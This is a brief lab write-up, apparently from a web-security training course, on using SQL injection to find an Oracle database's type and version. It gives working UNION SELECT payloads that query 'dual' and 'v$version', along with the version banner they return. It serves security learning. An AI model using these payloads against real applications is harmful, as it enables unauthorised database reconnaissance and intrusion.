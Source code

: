 # Lab: SQL injection attack, querying the database type and version on Oracle

There are two string columns to work with: `'UNION+SELECT+'a','a'+FROM+dual--`

The 'dual' table indicates that this is an Oracle DB (but the lab provides this info).

Use the second column for data, leave the first as NULL: `'UNION+SELECT+NULL,banner+FROM+v$version--`

This returns the necessary items:
```
CORE 11.2.0.2.0 Production
NLSRTL Version 11.2.0.2.0 - Production
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
PL/SQL Release 11.2.0.2.0 - Production
TNS for Linux: Version 11.2.0.2.0 - Production
```